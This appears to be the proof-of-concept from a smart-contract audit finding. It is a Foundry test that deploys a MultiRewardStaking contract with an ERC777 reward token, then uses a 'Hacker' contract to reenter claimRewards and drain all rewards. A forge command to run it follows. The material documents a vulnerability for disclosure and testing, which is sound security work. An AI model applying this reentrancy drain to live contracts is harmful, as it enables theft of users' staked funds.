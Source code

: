     contract DrainRewards is Test {
      MockERC20 stakingToken;
      MockERC777 rewardToken1;
      IERC20 iRewardToken1;
      MultiRewardStaking staking;
      MultiRewardEscrow escrow;

      address feeRecipient = address(0x9999);
      

      function setUp() public {
        stakingToken = new MockERC20("Staking Token", "STKN", 18);
        rewardToken1 = new MockERC777();
        iRewardToken1 = IERC20(address(rewardToken1));
        escrow = new MultiRewardEscrow(address(this), feeRecipient);
        staking = new MultiRewardStaking();
        staking.initialize(IERC20(address(stakingToken)), IMultiRewardEscrow(address(escrow)), address(this));
      }

      function _addRewardToken(MockERC777 rewardsToken) internal {
        rewardsToken.mint(address(this), 10 ether);
        rewardsToken.approve(address(staking), 10 ether);
        staking.addRewardToken(IERC20(address(rewardsToken)), 0.1 ether, 10 ether, false, 0, 0, 0);
      }

      function test__claim_reentrancy() public {
        // Prepare array for `claimRewards`
        IERC20[] memory rewardsTokenKeys = new IERC20[](1);
        rewardsTokenKeys[0] = iRewardToken1;

        // setup hacker contract
        Hacker hacker = new Hacker(rewardsTokenKeys, staking);
        address hackerAddr = address(hacker);
        stakingToken.mint(hackerAddr, 1 ether);
        hacker.approveAndDeposit();

        // Add reward token to staking 
        _addRewardToken(rewardToken1);

        // 10% of rewards paid out
        vm.warp(block.timestamp + 10);

        // Get the full rewards held by the staking contract
        uint256 full_rewards_amount = iRewardToken1.balanceOf(address(staking));

        // Call hacker to start claiming the rewards and reenter
        hacker.startHack();

        // validate we received 100% of rewards (10 eth)
        assertEq(rewardToken1.balanceOf(hackerAddr), full_rewards_amount);
      }
    }

To run the POC, execute the following command:

    forge test -m "test__claim_reentrancy" --fork-url=<MAINNET FORK>
